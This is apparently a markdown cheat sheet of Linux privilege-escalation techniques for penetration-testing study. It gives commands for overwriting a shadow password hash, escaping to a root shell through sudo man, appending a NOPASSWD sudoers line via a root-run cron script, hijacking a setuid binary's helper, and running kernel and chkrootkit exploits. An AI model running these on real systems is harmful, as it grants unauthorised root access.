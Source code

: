 # Weak Permissions

- find / -not -type l (small L) -perm -o+w (world-writable files)
- use openssl to generate encrypted linux passwords (can be substituted in shadow file)
	- openssl passwd -1 -salt abc [cleartext password]
	- -1 means weakest algorithm, -6 means strongest
 - change root password with new password
 - su

# Sudo Misconfig

- sudo -l : programs that current user can run as root
- eg. man > sudo man cat > type !/bin/bash > opens shell as root

  ![privesc](./images/linprivesc-01.png)
  ![privesc](./images/linprivesc-02.png)
  ￼
- if LD_PRELOAD env in "sudo -l" output, 

  ![privesc](./images/linprivesc-03.png)
  ![privesc](./images/linprivesc-04.png)
  ![privesc](./images/linprivesc-05.png)
  ![privesc](./images/linprivesc-06.png)
      ￼

# Kernel Exploit

- https://github.com/mzet-/linux-exploit-suggester
- upload les.sh to target using meterpreter and run the file
- eg. dirtycow exploit creates a new user with escalated perms with a password

# Cron jobs

- look for a script file (.sh) which normal user van edit and can run as root.
- printf '#! /bin/bash\necho "student ALL=NOPASSWD:ALL" >> /etc/sudoers' > /usr/local/share/copy.sh
- this will create a script which will allow student user to run sudo without password

# Exploiting setuid programs

- setuid bit looks like:

  ![privesc](./images/linprivesc-07.png)
  
- find files:  find / -user root -perm -4000 -exec ls -ldb {} \;
- another way to find file: find / -perm -u=s -type f 2>/dev/null
- this means this binary along with all child processes run with root privs
- investigate binary with - strings ./welcome
- since this binary is calling greetings binary, we delete the ./greetings binary
- and replace with /bin/bash binary
- this will run /bin/bash as root
- run the welcome binary, it should give root shell

# Rootkit scanner

- check for any scripts running that are running chkrootkit as root in "ps aux"
- chkrootkit v0.49 is vulnerable to privesc - exploit/unix/local/chkrootkit
- set CHKROOTKIT /bin/chkrootkit 

  ![privesc](./images/linprivesc-08.png)
  ![privesc](./images/linprivesc-09.png)
